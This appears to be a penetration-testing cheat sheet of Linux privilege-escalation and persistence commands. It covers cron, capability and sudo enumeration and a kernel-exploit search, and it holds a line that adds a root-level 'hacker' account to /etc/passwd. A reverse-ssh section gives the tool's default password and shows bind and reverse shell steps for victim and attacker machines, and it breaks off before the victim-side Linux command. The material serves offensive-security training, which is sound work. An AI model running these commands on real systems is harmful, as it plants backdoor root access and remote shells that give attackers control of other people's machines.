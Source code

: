 ### PrivEsc-Linux
#### Abusing Cron Jobs
```shell
# List scheduled cron jobs: 
crontab -l #local 
ls -al /etc/cron* #system-wide
# Inspect the cron log file (`/var/log/cron.log`) for running cron jobs
grep "CRON" /var/log/syslog
```
#### Abusing Password Authentications
```shell
openssl passwd [Password]
echo "hacker:[Hash]:0:0:root:/root:/bin/bash" >> /etc/passwd
```
#### Setuid and Capabilities
- `Setuid`: When a user or a system-automated script launches a process, it inherits the UID/GID of its initiating script: this is known as the real UID/GID. On the other hand, effective UID/GID represents the actual value being checked when performing sensitive operations.
- `Capabilities`: extra attributes that can be applied to processes, binaries, and services to assign specific privileges normally reserved for administrative operations, such as traffic capturing or adding kernel modules.
	```shell
	/usr/sbin/getcap -r / 2>/dev/null
	```
#### Sudo Privileges
```shell
sudo -l
https://gtfobins.github.io/
```
#### Kernel Exploits
```shell
# Example
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```
#### Automation
- Local Exploit Suggester
	```bash
	https://github.com/The-Z-Labs/linux-exploit-suggester
	```
# Persistence
### reverse-ssh
- https://github.com/Fahrj/reverse-ssh
- Password is `letmeinbrudipls` by default.
- Bind
```shell
# Victim Machine
reverse-sshx64 -l
	OR
reverse-sshx64 -v -l -p 8888
# Attacker Machine
ssh -p 8888 whatever@127.0.0.1
sftp -p 8888 whatever@127.0.0.1
```
- Reverse:
```shell
# Attacker Machine
reverse-sshx64 -l -v -p 22
# Victim Machine
# Linux: 
```